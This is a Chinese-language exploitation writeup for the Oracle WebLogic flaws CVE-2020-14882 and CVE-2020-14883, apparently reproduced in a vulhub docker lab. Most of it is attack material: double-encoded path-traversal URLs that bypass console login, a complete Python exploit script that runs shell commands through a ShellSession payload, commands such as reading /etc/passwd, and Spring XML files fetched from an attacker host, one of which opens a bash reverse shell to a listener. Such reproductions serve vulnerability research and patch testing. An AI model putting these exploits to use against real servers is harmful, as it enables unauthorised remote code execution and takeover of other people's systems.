# CVE-2020-14882 & CVE-2020-14883 Weblogic Pre-Auth Remote Command Execution

## Description

Weblogic 是 Oracle 公司推出的 J2EE 应用服务器。在 2020 年 10 月的更新中，Oracle 官方修复了两个长亭科技安全研究员 @voidfyoo 提交的安全漏洞，分别是 CVE-2020-14882 和 CVE-2020-14883。

CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001/console` ，看到如下页面即为靶场正常运行。



### 漏洞复现

#### CVE-2020-14882

CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台

访问 `http://your-ip:7001/console/css/%252e%252e%252fconsole.portal` ，可以看到如下页面，即为成功绕过权限验证访问后台。

???+ tip "二次编码"

	 `%252E%252E%252F` 为二次url编码的 `../` ，通过这个就可以实现穿越路径未授权访问相关管理后台。



???+ tip "注意"

	第一次访问可能会出现 404 页面，在浏览器地址栏重新输入一次 URL 访问即可。

对比正常登录访问的页面



可以看到通过未授权访问的后台与正常登陆的后台相比，由于权限不足，缺少部署等功能，无法安装应用，所以也无法通过后台部署war包等方式直接获取权限。

### CVE-2020-14883

利用上述未授权访问 CVE-2020-14882 结合 CVE-2020-14883。CVE-2020-14883 允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

漏洞利用方法有两种：

1. 通过 `com.tangosol.coherence.mvel2.sh.ShellSession` 执行命令
2. 通过 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 执行命令

???+ tip "方法一适用版本"

	这个利用方法只能在 Weblogic 12.2.1 以上版本利用，因为 10.3.6 并不存在 `com.tangosol.coherence.mvel2.sh.ShellSession` 类。

???+ tip "方法二适用版本"

	 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 是一种更为通杀的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

#### 方法一：GET 请求(无回显方式)

直接访问如下 URL 即可利用 `com.tangosol.coherence.mvel2.sh.ShellSession` 执行命令：

```
http://192.168.10.10:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success');")
```



执行命令成功后，进入靶场容器内验证可以看到 `/tmp/success` 文件已经被创建。



#### 方法一：POST 请求(有回显方式)

EXP 如下：

```python title="14882-exp.py"
#!/usr/bin/env python3

# -*- coding: utf-8 -*-

# author: zhzyker

# from: https://github.com/zhzyker/vulmap

# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client. HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='

            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):

    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")

if __name__ == '__main__':

    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)

```

执行脚本即可自动构造 POST 请求，利用 `com.tangosol.coherence.mvel2.sh.ShellSession` 执行命令：

```bash
python 14882-exp.py -u http://192.168.10.10:7001 -c "cat /etc/passwd"
python 14882-exp.py -u http://192.168.10.10:7001 -c "uname -a"
python 14882-exp.py -u http://192.168.10.10:7001 -c "id"
```



#### 方法二：无回显方式

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，可以自行搭建一个web服务，例如 `python -m http.server 80`

XML 文件内容如下：

```xml title="14882-rce.xml"
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>

</beans>
```



然后通过访问如下 URL，即可让 Weblogic 加载这个 XML ，并执行其中的命令：

```

http://192.168.10.10:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support. FileSystemXmlApplicationContext("http://192.168.10.20/14882-rce.xml")

```



执行命令成功后，进入靶场容器内验证可以看到 `/tmp/success2` 文件已经被创建。



#### 方法二：反弹Shell

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，可以自行搭建一个web服务，例如 `python -m http.server 80`

XML 文件内容如下：

```xml title="14882-shell-rce.xml"
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/192.168.10.20/4444 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```


在攻击机器上监听4444端口：

```bash
nc -lvnp 4444
```

然后通过访问如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://192.168.10.10:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.10.20/14882-shell-rce.xml")
```



访问成功后在攻击者主机上成功接收到反弹的Shell



## References

* [vulhub](https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md)
* [hetian](https://www.hetianlab.com/expc.do?ce=8ccf51be-fbd8-4e9d-9e16-d54c3fe67db8)
